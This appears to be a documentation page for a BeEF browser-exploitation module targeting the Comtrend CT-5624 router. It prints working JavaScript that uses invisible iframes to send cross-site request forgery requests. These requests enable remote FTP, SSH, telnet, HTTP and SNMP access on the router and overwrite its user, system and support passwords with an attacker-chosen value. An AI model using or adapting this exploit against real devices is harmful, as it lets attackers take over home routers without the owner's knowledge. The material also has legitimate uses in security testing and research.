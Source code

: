 ## Summary

* **Objective**: enable remote administration and change the password on a Comtrend CT-5624 router
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/comtrend_ct5624_csrf)

## Internal Working

Uses an invisible iframe with a GET request to change config

```js
  var ct5367_iframe1_<%= @command_id %> = beef.dom.createInvisibleIframe();
  ct5367_iframe1_<%= @command_id %>.setAttribute('src', gateway+'scsrvcntr.cmd?action=save&ftp=1&ftp=3&http=1&http=3&icmp=1&snmp=1&snmp=3&ssh=1&ssh=3&telnet=1&telnet=3&tftp=1&tftp=3');

  var ct5367_iframe2_<%= @command_id %> = beef.dom.createInvisibleIframe();
  ct5367_iframe2_<%= @command_id %>.setAttribute('src', gateway+'/password.cgi?usrPassword='+passwd+'&sysPassword='+passwd+'&sptPassword='+passwd);

```

## Feedback

